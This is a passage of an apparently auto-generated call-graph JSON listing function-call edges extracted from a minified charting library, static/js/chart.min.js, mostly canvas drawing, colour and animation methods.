"from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "findIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "findIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "tick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAnims"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAnims"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAnims"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAnims"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "running"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "valid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hslString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "interpolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "alpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clearer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "greyscale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "opaquer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lighten"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "darken"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "desaturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "darken"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stringify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "numeric"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "logarithmic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDevicePixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "override"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "route"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "route"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "route"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "route"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "route"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "passive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resetTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ellipse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "strokeText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isScriptable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ownKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, 